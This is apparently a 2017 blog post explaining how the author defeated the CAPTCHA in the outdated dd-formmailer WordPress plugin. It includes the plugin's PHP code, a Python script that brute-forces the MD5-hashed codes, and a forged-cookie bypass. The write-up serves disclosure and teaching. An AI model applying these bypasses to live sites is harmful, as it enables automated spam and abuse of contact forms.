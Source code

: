 +++
date = "2017-02-18T10:55:59-05:00"
draft = false
title = "Defeating dd-formmailer's Weak CAPTCHA"
description = "How I broke a Wordpress plugin's weak CAPTCHA"
hasmath = true
+++

Yesterday, I visited a website that uses [dd-formmailer][1], a Wordpress
plugin that provides a form for sending an email, complete with a
CAPTCHA intended to prevent automated abuse. Here's a screenshot:

![A screenshot of the dd-formmailer form][i1]

I was bored and curious, so I looked at the CAPTCHA image and noticed it
was always served from the same path:
`/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1`. How, I
wondered, does the script handling form submissions know if the user
entered the right CAPTCHA? A cookie?

    $ curl -si http://[snip].com/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1 | head
    HTTP/1.1 200 OK
    ...
    Set-Cookie: ddfmcode=bacb87c6f4ad4b08090e838d074bc18f; expires=Sat, 18-Feb-2017 17:47:30 GMT; path=/; domain=.[snip].com
    ...

A cookie! With what, the md5 of the correct answer?

    $ echo -n 3649B | md5sum
    bacb87c6f4ad4b08090e838d074bc18f  -

Yes!

As you can probably tell already, this is not the best approach.

# Pass 1

Looking at [the source][2],

    srand((double)microtime()*1000000); 
    $ddfmcode = substr(strtoupper(md5(rand(0, 999999999))), 2, 5); 
    $ddfmcode = str_replace("O", "A", $ddfmcode); // for clarity
    $ddfmcode = str_replace("0", "B", $ddfmcode);
    setcookie("ddfmcode", md5($ddfmcode), time()+3600, '/', '.' . $this_domain); 

you can see that CAPTCHA codes generated are 5-character hex strings
without 0s, leaving only $15^5 = 759,375$ possibilities. (Contrary to the
third line, hex strings don't contain the letter O 😄). We can brute
force all of these in less than two seconds with a simple Python script:

    #!/usr/bin/env python3
    
    from hashlib import md5
    
    for i in range(16**5):
        # Skip numbers with a 0 in their 5-char hex form
        if i >> 16 == 0 or \
           i >> 12 & 0xF == 0 or \
           i >> 8 & 0xF == 0 or \
           i >> 4 & 0xF == 0 or \
           i & 0xF == 0:
            continue
    
        captcha = '{:05X}'.format(i)
        hashed = md5(captcha.encode()).hexdigest()
        print('{}\t{}'.format(hashed, captcha))

and

    $ time ./bruteforce.py >hashes

    real    0m1.870s
    user    0m1.820s
    sys     0m0.052s

Then, when the server gives us a hash in the cookie, we can easily look
it up:

    $ time grep bacb87c6f4ad4b08090e838d074bc18f hashes
    bacb87c6f4ad4b08090e838d074bc18f        3649B
    
    real    0m0.016s
    user    0m0.008s
    sys     0m0.004s

But it gets better.

# Pass 2

While writing the last section, I realized: what stops clients from
sending a cookie with their own hash? The answer is nothing.

For example, I can send a `Cookie:
ddfmcode=b252d1fe1c0c16d001027c2fce9b6529` header (the md5 of "BANANA")
and then "BANANA" in the `fm_verify` form field and successfully send
the email. You don't need to request the CAPTCHA image at all!

Here's the relevant section of code:

    $t = ddfm_stripslashes($form_input['fm_verify']);
    ...
    } else if ($_COOKIE["ddfmcode"] != md5(strtoupper($t))) { 
    
    	$errors[] = DDFM_INVALIDVER;
    
    } 

# Conclusion

Avoid Wordpress plugins last updated in 2009.

[1]: http://www.dagondesign.com/articles/secure-form-mailer-plugin-for-wordpress/
[2]: http://www.dagondesign.com/articles/secure-php-form-mailer-script/#download
[i1]: /img/blog/defeating-dd-formmailer/1.png
